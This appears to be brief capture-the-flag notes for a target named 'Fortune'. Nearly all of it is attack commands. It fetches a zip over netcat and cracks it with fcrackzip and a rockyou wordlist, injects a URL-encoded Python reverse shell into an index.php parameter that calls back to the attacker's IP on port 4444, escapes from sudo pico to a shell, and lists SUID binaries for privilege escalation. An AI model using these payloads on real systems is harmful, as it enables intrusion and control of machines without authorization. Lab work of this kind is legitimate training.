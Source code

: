 Fortune

**Autogens passwords**

## zip file
`nc IP 3333 | base64 -d > output.zip`
`fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt output.zip`
ssh using creds
`passwd`

Alternate: `http://<IP>/_styles/index.php?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22<YOURIP>%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27` replace ip and yourip, port 4444, takes a few tries to work
```
sudo pico
^R^X
reset; sh 1>&0 2>&0
```


SUID exploits (/usr/bin):
- xargs
- nice
- find

edit /var/www/html/_styles/index.php
crontab -e, remove 
Fix sudoers file `visudo`